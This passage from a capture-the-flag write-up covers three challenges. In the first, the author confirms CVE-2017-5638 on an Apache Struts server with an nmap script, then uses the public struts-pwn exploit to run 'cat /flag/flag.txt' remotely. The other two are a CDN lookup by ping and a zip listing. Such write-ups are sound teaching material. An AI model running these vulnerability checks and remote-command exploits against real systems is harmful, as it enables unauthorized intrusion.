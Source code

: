 Using the nmap script to check for vulnerability to CVE-2017-5638 turned up a positive result.
(Apologies! I didn't capture the output for this command.)

```console
$ nmap -p8080 --script http-vuln-cve2017-5638 13.114.183.54
...
... IS VULNERABLE!
```

Now we can simply clone this exploit by [mazen160](https://github.com/mazen160/struts-pwn) and use
it against the server.

```console
$ python struts-pwn.py --url 'http://13.114.183.54:8080/showcase.action' -c 'cat /flag/flag.txt'

[*] URL: http://13.114.183.54:8080/showcase.action
[*] CMD: cat /flag/flag.txt
[!] ChunkedEncodingError Error: Making another request to the url.
Refer to: https://github.com/mazen160/struts-pwn/issues/8 for help.
EXCEPTION::::--> ("Connection broken: InvalidChunkLength(got length b'', 0 bytes read)", InvalidChunkLength(got length b'', 0 bytes read))
Note: Server Connection Closed Prematurely

flag{Fbzrqnl_vg_jvyy_or_hahfrq}
[%] Done.
```

**Flag:**: `flag{Fbzrqnl_vg_jvyy_or_hahfrq}`

### CDN

In this challenge we were supposed to identify which CDN was serving `jpn.nec.com`.

This was trivial.

```console
ping jpn.nec.com
PING e13694.b.akamaiedge.net (125.252.231.135): 56 data bytes
64 bytes from 125.252.231.135: icmp_seq=0 ttl=59 time=7.246 ms
64 bytes from 125.252.231.135: icmp_seq=1 ttl=59 time=4.371 ms
^C
--- e13694.b.akamaiedge.net ping statistics ---
2 packets transmitted, 2 packets received, 0.0% packet loss
round-trip min/avg/max/stddev = 4.371/5.809/7.246/1.438 ms
```

**Flag:** `flag{akamai}`

### Unlock

Attachment: [64ef3b043d56cbbb8f873cfa96cd3e4e.zip]({{ site.url }}{{ site.baseurl }}/assets/files/cyberseagame-2021/64ef3b043d56cbbb8f873cfa96cd3e4e.zip)

Unzipping the zip file gave us the configuration for a HTTPd server as well as pcap file.

```console
unzip -l 64ef3b043d56cbbb8f873cfa96cd3e4e.zip
Archive:  64ef3b043d56cbbb8f873cfa96cd3e4e.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
        0  12-14-2018 12:50   etc/
        0  12-14-2018 12:51   etc/httpd/
        0  12-14-2018 12:50   etc/httpd/conf/
        0  12-14-2018 12:50   etc/httpd/conf.d/
      118  05-20-2009 15:05   etc/httpd/conf.d/mod_dnssd.conf
     1484  02-28-2018 18:23   etc/httpd/conf.d/php.conf
      392  06-20-2018 00:47   etc/httpd/conf.d/README
     9439  12-13-2018 19:03   etc/httpd/conf.d/ssl.conf
      299  02-19-2018 20:24   etc/httpd/conf.d/welcome.conf
```